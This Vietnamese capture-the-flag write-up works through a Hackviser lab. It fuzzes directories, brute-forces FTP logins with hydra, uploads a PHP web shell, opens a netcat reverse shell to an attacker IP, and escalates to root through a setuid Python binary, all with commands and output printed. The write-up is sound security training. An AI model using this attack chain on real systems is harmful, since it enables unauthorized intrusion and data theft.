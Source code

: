```yaml
---
title: "Rivalry Lap"
published: 2025-09-19
description: "Bài này khá là hay."
tags: [CAPT, Hackviser]
category: Write up
licenseName: "Unlicensed"
draft: false
---
```


# **Rivalry Lap**
## How many new clients does the CEO of Orbitronix Systems, Emily Johnson, claim they have gained?
- truy cập trang web tôi thấy được giới thiệu ở gần cuối trang rằng **"CreateEdge's strategies gained us 3500 new customers in just a few months!"**
==> điều đó cho biết được rằng đáp án là **3500**

---
## What is the advertising budget of Orbitronix Systems in dollars?
- Thử dùng công cụ ffuf để quét thư mục , tôi phát hiện được 1 thư mục có tên **ftp**
```
 ffuf -ic-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e '.php'-u http://createdge.hv/FUZZ/ -t 40

     /'___\  /'___\           
   /\ \__/ /\ \__/  __  __  /\ \__/       
   \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
    \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
     \ \_\ \ \_\ \ \____/  \ \_\          
      \/_/  \/_/  \/_/___/   \/_/          
v2.1.0-dev
 ________________________________________________
:: Method           : GET        
:: URL              : http://createdge.hv/FUZZ/       
:: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list     
2.3-medium.txt
:: Extensions       : .php 
:: Follow redirects : false
:: Calibration      : false
:: Timeout          : 10   
:: Threads          : 40   
:: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 ________________________________________________
 .php                     [Status: 200, Size: 10752, Words: 3217, Lines: 272, Duration: 188ms]
 icons                    [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 183ms]
 assets                   [Status: 200, Size: 1501, Words: 100, Lines: 20, Duration: 182ms]
 ftp                      [Status: 200, Size: 935, Words: 62, Lines: 17, Duration: 182ms]

```
- Truy cập vào thư mục ta thấy được 1 file **clients.csv** . Tải nó về và mở ra thì có nội dung là :
```
Company Name,Advertising Budget ($)
Innovatech Ltd,50000
QuantumSoft,75000
BlueHaven Tech,60000
PinnacleByte,45000
SysTech Global,80000
Orbitronix Systems,225000
NexaCore Tech,30000
Zenithar Tech,70000
VortexaTech,55000
NovaSphere Tech,65000

```
==> đáp án là **225000**

---
## Who is the target audience of the Orbitronix Systems advertising campaign?
- Tôi quét mục tiêu bằng công cụ nmap thì phát hiện có bật cổng dịch vụ ftp trên port 21
- Sau đó tôi đã dùng công cụ hydra để quét các cặp tài khoản mật khẩu dễ bị xâm phạm 
```
┌─[✗]─[root@hackerbox]─[~]
└──╼ #hydra -f -V -I -t 4 -s 21 -C /root/Desktop/misc/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 172.20.22.208 ftp
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-19 08:52:24
[DATA] max 4 tasks per 1 server, overall 4 tasks, 66 login tries, ~17 tries per task
[DATA] attacking ftp://172.20.22.208:21/
[ATTEMPT] target 172.20.22.208 - login "anonymous" - pass "anonymous" - 1 of 66 [child 0] (0/0)
[ATTEMPT] target 172.20.22.208 - login "root" - pass "rootpasswd" - 2 of 66 [child 1] (0/0)
[ATTEMPT] target 172.20.22.208 - login "root" - pass "12hrs37" - 3 of 66 [child 2] (0/0)
[ATTEMPT] target 172.20.22.208 - login "ftp" - pass "b1uRR3" - 4 of 66 [child 3] (0/0)
[ATTEMPT] target 172.20.22.208 - login "ftp_boot" - pass "ftp_boot" - 48 of 66 [child 0] (0/0)
[ATTEMPT] target 172.20.22.208 - login "uploader" - pass "ZYPCOM" - 49 of 66 [child 1] (0/0)
[ATTEMPT] target 172.20.22.208 - login "ftpuser" - pass "password" - 50 of 66 [child 2] (0/0)
[ATTEMPT] target 172.20.22.208 - login "USER" - pass "USER" - 51 of 66 [child 3] (0/0)
[21][ftp] host: 172.20.22.208   login: ftpuser   password: password
[STATUS] attack finished for 172.20.22.208 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-19 08:52:36

```
==> Thấy được công cụ đã quét được tài khoản mật khẩu để đăng nhập dịch vụ ftp là **ftpuser:password**
- Đăng nhập vào dịch vụ ftp 
```
ftp 172.20.22.208
```
- Tôi đã tạo 1 file web shell ở [đây](https://github.com/flozz/p0wny-shell) , sau đó tôi tải nó lên sever web
```
put shell.php
```
- Quay trở lại shell tôi cấu hình lắng nghe trên cổng 8888
```
nc -lvp 8888
```
- Sau đó tôi truy cập file shell trên trình duyệt và chạy câu lệnh
```
www-data@debian:/# nc -e /bin/bash 172.20.22.91 8888
```
- Khi có được shell , tôi đã chạy python để có được 1 shell chỉnh chu và đẹp mắt hơn
```
python3 -c 'import os; os.system("/bin/bash")'
```
---
- Dùng find để tìm kiếm file thực thi có setuid được bật để tìm kiếm cơ hội leo thang đặc quyền .
```
find / -perm -4000 2>/dev/null
/usr/bin/umount
/usr/bin/passwd
/usr/bin/mount
/usr/bin/python3.9
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/newgrp
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```
- python3.9 có bật setuid là 1 lỗ hỏng có thể leo thang đặc quyền .
```
python3 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
- Khi đã có root tôi truy cập vào đường dẫn /archive/detailed_client_info.csv
, nội dung của file này là:
```
Company Name,Advertising Budget ($),Campaign Objective,Campaign Success,Target Audience,Campaign Duration (Months)
Innovatech Ltd,50000,Customer Retention,Yes,Long-term Customers,6
QuantumSoft,75000,Sales Increase,No,Professionals,3
BlueHaven Tech,60000,Product Launch,Yes,Tech Enthusiasts,4
PinnacleByte,45000,Market Expansion,Yes,Global Market,5
SysTech Global,80000,Online Engagement,No,Online Shoppers,2
Orbitronix Systems,225000,Brand Awareness,Yes,Young Adults,12
NexaCore Tech,30000,Brand Awareness,No,Youth,7
Zenithar Tech,70000,Sales Increase,Yes,B2B Clients,1
VortexaTech,55000,Market Expansion,No,Local Market,8
NovaSphere Tech,65000,Product Launch,Yes,Innovators,9
```
==> đáp án cho câu hỏi này là : **Young Adults**

---

## What is the name of the secret marketing tool developed by Create Edge?

- Tiếp tục đọc nội dung của file /archive/meetings/orbitronix_system-2023-11-20.txt thấy được đoạn nội dung này :
```
Meeting Notes: Create Edge - Orbitronix Systems
Date: 2023-11-20
Location: Create Edge Headquarters

Attendees:
- Alex Carter (Create Edge, Marketing Director)
- Sophia Reynolds (Orbitronix Systems, Senior Project Manager)

Agenda:
1. Introduction and objectives of the meeting.
2. Discussion on current market trends and consumer behavior.
3. Overview of Orbitronix Systems' marketing goals.
4. Create Edge's proposed marketing strategies for Orbitronix Systems.
5. Budget considerations and timelines.
6. Q&A and next steps.

Key Points Discussed:
- Orbitronix Systems is seeking to enhance its brand visibility and customer engagement.
- Create Edge presented a comprehensive digital marketing strategy, focusing on social media and content marketing.
- Discussed the importance of SEO and online presence for Orbitronix Systems.
- Budget allocation for the campaign was tentatively agreed upon, subject to approval by Orbitronix Systems' finance department.
- Proposed timeline for the marketing campaign rollout is 12 months, starting from February 2024.

Secret and Highly Important Information:
- Alex Carter revealed that Create Edge has developed a groundbreaking AI-driven marketing analysis tool,which name is InsightNexus AI, which they plan to implement for the first time in the Orbitronix campaign.
- Sophia Reynolds mentioned a potential merger between Orbitronix Systems and another major tech player, which could significantly shift the market dynamics.

Action Items:
- Create Edge to send a detailed proposal to Orbitronix Systems by 2024-01-27.
- Orbitronix Systems to review and provide feedback on the proposal by 2024-02-03.
- Schedule a follow-up meeting to finalize the campaign details.

Meeting concluded at 3:30 PM.
```
==> Qua đoạn hội thoại trên ta thấy được đáp án chính là : **InsightNexus AI**


